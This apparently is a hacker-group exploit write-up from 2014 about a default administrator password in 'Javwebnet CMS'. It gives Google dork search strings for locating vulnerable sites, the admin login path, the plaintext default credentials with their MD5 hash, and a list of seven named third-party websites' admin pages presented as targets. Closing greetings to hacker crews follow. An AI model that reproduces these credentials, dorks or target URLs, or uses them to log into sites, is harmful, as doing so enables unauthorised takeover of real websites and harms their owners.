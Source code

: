 # Javwebnet-CMS-Default-Password-Vulnerability

*  Google Dork
	* `intext:"web design by javwebnet"`
	* `inurl:"admin/chace.php"`
	* `intitle:"Explore Your Brain ! \m/ Google sek ngaceng!"`
* Date                 : 05/01/2014
* Exploit Author       : BarrabravaZ
* Vendor Homepage      : http://www.javwebnet.com/
* Version              : 1.0
* Tested on            : Windows, Linux
* Surabaya Blackhat "Learn to be Better"

## Author will be not responsible for any damage
* Issue: Default Password Admin
* Risk level: High

> The remote attacker has the possibility to manage the website.
> The remote attacker is able to login into website with access level as admin.

## Proof Of Concept:
> http://127.0.0.1/admin/

* Username : `admin`
* Password : `17t17n25a` (md5: `3445c774b86384665a5315b30f8a6735`)

## Cro0t
> http://www.nomorsejagad.com/admin

> http://www.decalartworks.com/admin

> http://www.perdanajakarta.com/admin

> http://www.bangkitperdana.com/admin

> http://www.kecapborobudur.com/admin

> http://www.maulidaperdana.com/admin

> http://www.istanabajutidur.com/admin

## Thx To

* Meninbox wong ganteng unyu2 :D
* Katon --> Was here
* Zeeattacker aku njal0k oleh2 teko bangkok yo cok :v
* Bagfreakz aKa paijo painem hahaha
* Gandrunx --> master koding ,ajarin doong kakak..
* Ch0c0 terhumanisasi
* MyWisdom kakak paling cakep :*
* Array --> Mboh wong iki geje nick'e array wkwkwk
* Surabayag3tar guruku ('/\')
* Mr. DC bang jali :D
* Dem1t,Bejat,Morgue,OmJin..
* Siti Jubaidah,X'inject,R1O,Angel DOt ID...
* Haxor HuSsY, Hax0r W0w, Leet Hax0r,Kami Hax0r...
* SunDi3yansyah anak kos-kosan :v

## Developer
* SurabayaBlackhat
* Madleets
* IFC
* Hiddenc0de
* devilzc0de